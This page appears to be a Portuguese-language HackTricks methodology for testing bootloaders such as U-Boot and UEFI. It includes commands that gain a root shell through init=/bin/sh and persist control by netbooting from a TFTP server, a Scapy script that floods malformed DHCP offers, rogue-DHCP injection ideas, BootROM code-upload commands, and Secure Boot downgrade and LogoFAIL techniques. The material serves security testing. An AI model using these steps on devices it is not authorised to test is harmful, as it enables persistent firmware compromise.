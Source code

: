 # Bootloader Testing

{{#include ../../banners/hacktricks-training.md}}

Os passos a seguir são recomendados para modificar configurações de inicialização do dispositivo e testar bootloaders como U-Boot e carregadores da classe UEFI. Foque em obter execução de código cedo, avaliar proteções de assinatura/rollback e abusar de caminhos de recuperação ou boot por rede.

Related: MediaTek secure-boot bypass via bl2_ext patching:

{{#ref}}
android-mediatek-secure-boot-bl2_ext-bypass-el3.md
{{#endref}}

## U-Boot quick wins and environment abuse

1. Access the interpreter shell
- Durante o boot, pressione uma tecla de interrupção conhecida (frequentemente qualquer tecla, 0, space, ou uma sequência "mágica" específica da placa) antes de `bootcmd` executar para cair no prompt do U-Boot.

2. Inspect boot state and variables
- Comandos úteis:
- `printenv` (dump environment)
- `bdinfo` (board info, memory addresses)
- `help bootm; help booti; help bootz` (supported kernel boot methods)
- `help ext4load; help fatload; help tftpboot` (available loaders)

3. Modify boot arguments to get a root shell
- Anexe `init=/bin/sh` para que o kernel abra um shell em vez do init normal:
```
# printenv
# setenv bootargs 'console=ttyS0,115200 root=/dev/mtdblock3 rootfstype=<fstype> init=/bin/sh'
# saveenv
# boot    # or: run bootcmd
```

4. Netboot from your TFTP server
- Configure a rede e busque um kernel/fit image pela LAN:
```
# setenv ipaddr 192.168.2.2      # device IP
# setenv serverip 192.168.2.1    # TFTP server IP
# saveenv; reset
# ping ${serverip}
# tftpboot ${loadaddr} zImage           # kernel
# tftpboot ${fdt_addr_r} devicetree.dtb # DTB
# setenv bootargs "${bootargs} init=/bin/sh"
# booti ${loadaddr} - ${fdt_addr_r}
```

5. Persist changes via environment
- Se o armazenamento de env não estiver protegido contra escrita, você pode persistir controle:
```
# setenv bootcmd 'tftpboot ${loadaddr} fit.itb; bootm ${loadaddr}'
# saveenv
```
- Verifique variáveis como `bootcount`, `bootlimit`, `altbootcmd`, `boot_targets` que influenciam caminhos de fallback. Valores mal configurados podem conceder quebras repetidas para o shell.

6. Check debug/unsafe features
- Procure por: `bootdelay` > 0, `autoboot` desabilitado, `usb start; fatload usb 0:1 ...` sem restrições, habilidade de `loady`/`loads` via serial, `env import` de mídia não confiável, e kernels/ramdisks carregados sem checagem de assinatura.

7. U-Boot image/verification testing
- Se a plataforma alega secure/verified boot com FIT images, teste tanto imagens unsigned quanto adulteradas:
```
# tftpboot ${loadaddr} fit-unsigned.itb; bootm ${loadaddr}     # should FAIL if FIT sig enforced
# tftpboot ${loadaddr} fit-signed-badhash.itb; bootm ${loadaddr} # should FAIL
# tftpboot ${loadaddr} fit-signed.itb; bootm ${loadaddr}        # should only boot if key trusted
```
- Ausência de `CONFIG_FIT_SIGNATURE`/`CONFIG_(SPL_)FIT_SIGNATURE` ou comportamento legacy `verify=n` frequentemente permite bootar payloads arbitrários.

## Network-boot surface (DHCP/PXE) and rogue servers

8. PXE/DHCP parameter fuzzing
- O tratamento legacy BOOTP/DHCP do U-Boot já teve problemas de segurança de memória. Por exemplo, CVE‑2024‑42040 descreve divulgação de memória via respostas DHCP forjadas que podem leak bytes da memória do U-Boot de volta na rede. Exercite os caminhos de código DHCP/PXE com valores excessivamente longos/casos-limite (option 67 bootfile-name, vendor options, file/servername fields) e observe por travamentos/leaks.
- Minimal Scapy snippet to stress boot parameters during netboot:
```python
from scapy.all import *
offer = (Ether(dst='ff:ff:ff:ff:ff:ff')/
IP(src='192.168.2.1', dst='255.255.255.255')/
UDP(sport=67, dport=68)/
BOOTP(op=2, yiaddr='192.168.2.2', siaddr='192.168.2.1', chaddr=b'\xaa\xbb\xcc\xdd\xee\xff')/
DHCP(options=[('message-type','offer'),
('server_id','192.168.2.1'),
# Intentionally oversized and strange values
('bootfile_name','A'*300),
('vendor_class_id','B'*240),
'end']))
sendp(offer, iface='eth0', loop=1, inter=0.2)
```
- Também valide se os campos de filename do PXE são passados para a lógica do shell/loader sem sanitização quando encadeados a scripts de provisionamento do lado do OS.

9. Rogue DHCP server command injection testing
- Configure um serviço DHCP/PXE malicioso e tente injetar caracteres nos campos filename ou options para alcançar interpretadores de comando em estágios posteriores da cadeia de boot. O auxiliary DHCP do Metasploit, `dnsmasq`, ou scripts customizados em Scapy funcionam bem. Assegure isolar a rede de laboratório primeiro.

## SoC ROM recovery modes that override normal boot

Muitos SoCs expõem um modo BootROM "loader" que aceitará código via USB/UART mesmo quando imagens de flash são inválidas. Se os fusíveis de secure-boot não estiverem queimados, isso pode fornecer execução arbitrária de código muito cedo na cadeia.

- NXP i.MX (Serial Download Mode)
- Tools: `uuu` (mfgtools3) or `imx-usb-loader`.
- Example: `imx-usb-loader u-boot.imx` to push and run a custom U-Boot from RAM.
- Allwinner (FEL)
- Tool: `sunxi-fel`.
- Example: `sunxi-fel -v uboot u-boot-sunxi-with-spl.bin` or `sunxi-fel write 0x4A000000 u-boot-sunxi-with-spl.bin; sunxi-fel exe 0x4A000000`.
- Rockchip (MaskROM)
- Tool: `rkdeveloptool`.
- Example: `rkdeveloptool db loader.bin; rkdeveloptool ul u-boot.bin` to stage a loader and upload a custom U-Boot.

Avalie se o dispositivo tem eFuses/OTP de secure-boot queimados. Caso não, modos de download BootROM frequentemente bypassam qualquer verificação de nível superior (U-Boot, kernel, rootfs) executando seu payload de primeira etapa diretamente de SRAM/DRAM.

## UEFI/PC-class bootloaders: quick checks

10. ESP tampering and rollback testing
- Monte a EFI System Partition (ESP) e verifique componentes do loader: `EFI/Microsoft/Boot/bootmgfw.efi`, `EFI/BOOT/BOOTX64.efi`, `EFI/ubuntu/shimx64.efi`, `grubx64.efi`, caminhos de logo do vendor.
- Tente bootar com componentes assinados downgraded ou conhecidos-vulneráveis se as revogações do Secure Boot (dbx) não estiverem atualizadas. Se a plataforma ainda confiar em shims/bootmanagers antigos, frequentemente é possível carregar seu próprio kernel ou `grub.cfg` a partir da ESP para ganhar persistência.

11. Boot logo parsing bugs (LogoFAIL class)
- Vários firmwares OEM/IBV eram vulneráveis a falhas de parsing de imagem no DXE que processam boot logos. Se um atacante puder colocar uma imagem construída na ESP sob um caminho específico do vendor (por exemplo, `\EFI\<vendor>\logo\*.bmp`) e reiniciar, execução de código durante o boot inicial pode ser possível mesmo com Secure Boot habilitado. Teste se a plataforma aceita logos fornecidos pelo usuário e se esses caminhos são graváveis a partir do OS.

## Hardware caution

Seja cauteloso ao interagir com SPI/NAND flash durante o boot inicial (por exemplo, aterrar pinos para burlar leituras) e sempre consulte o datasheet do flash. Curtos temporizados incorretamente podem corromper o dispositivo ou o programador.

## Notes and additional tips

- Tente `env export -t ${loadaddr}` e `env import -t ${loadaddr}` para mover blobs de environment entre RAM e armazenamento; algumas plataformas permitem importar env de mídia removível sem autenticação.
- Para persistência em sistemas Linux que bootam via `extlinux.conf`, modificar a linha `APPEND` (para injetar `init=/bin/sh` ou `rd.break`) na partição de boot frequentemente é suficiente quando não há checagens de assinatura.
- Se o userland fornecer `fw_printenv/fw_setenv`, valide que `/etc/fw_env.config` corresponde ao armazenamento real de env. Offsets mal configurados permitem ler/gravar a região MTD errada.

## References

- [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)
- [https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot](https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-42040](https://nvd.nist.gov/vuln/detail/CVE-2024-42040)

{{#include ../../banners/hacktricks-training.md}}

